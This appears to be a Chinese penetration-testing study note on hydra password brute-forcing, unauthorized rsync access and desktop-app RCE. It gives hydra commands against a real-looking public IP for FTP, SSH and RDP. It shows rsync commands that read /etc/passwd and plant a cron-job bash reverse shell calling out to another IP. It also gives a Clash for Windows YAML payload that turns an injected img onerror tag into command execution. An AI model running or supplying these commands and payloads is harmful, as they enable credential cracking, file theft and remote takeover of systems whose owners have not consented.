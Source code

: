 
---

QQ&WPS等RCE&hydra口令猜解&未授权检测

# 端口协议

![[0.jpg]]

![[1 4.jpg]]

![[2 4.jpg]]

![[3 2.jpg]]

![[4.jpg]]

![[5.jpg]]

![[6.jpg]]

![[7.jpg]]

口令爆破&未授权

## -弱口令爆破

https://github.com/vanhauser-thc/thc-hydra
hydra是一个自动化的爆破工具，暴力破解弱密码，是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可

```
-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip

service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
```

```
例子：

FTP：文件传输协议

RDP：Windows远程桌面协议

SSH：Linux安全外壳协议

hydra -L test -P 10top1K.txt 47.110.53.159 ftp -V

hydra -l root -P 10top1K.txt 47.110.53.159 ssh -V

hydra -l administrator -P 10top1K.txt 47.110.53.159 rdp -V
```

## 未授权案例：

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件

```
判断：rsync rsync://120.27.220.186:57830/
```

```
利用：

-读取文件：rsync rsync://120.27.220.186:57830/src/

-下载文件：rsync rsync://120.27.220.186:57830/src/etc/passwd ./

-上传文件：rsync -av passwd rsync://120.27.220.186:57830/src/tmp/passwd
```

```
反弹shell：写入计划任务

1、获取信息：

rsync rsync://120.27.220.186:57830/src/etc/crontab /root/cron.txt

2.创建文件

touch shell

#!/bin/bash

/bin/bash -i >& /dev/tcp/47.94.236.117/5566 0>&1

chmod +x shell

3、上传文件

rsync -av shell rsync://120.27.220.186:57830/src/etc/cron.hourly

4、等待接受反弹
```

# 桌面应用

QQ&WPS&Clash

-QQ RCE 漏洞复现
不行了

-WPS RCE 漏洞复现
第80天复现讲过，鸡肋


-Clash RCE 漏洞复现
暂时只弹了计算器
```
Windows：Clash.for.Windows 版别 <= v 0.19.8

Mac：Clash.for.Windows.app版别 <= v0.19.81
```
利用
```
1、本地创立一个.yaml的文件

port: 7890

socks-port: 7891

allow-lan: true

mode: Rule

log-level: info

external-controller: :9090

proxies:

- name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: socks5

server: 127.0.0.1

port: "17938"

skip-cert-verify: true

- name: abc

type: socks5

server: 127.0.0.1

port: "8088"

skip-cert-verify: true

proxy-groups:

-

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: select

proxies:

- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

2、Profiles挑选导入.yaml

3、切换节点之后成功调用代码执行
```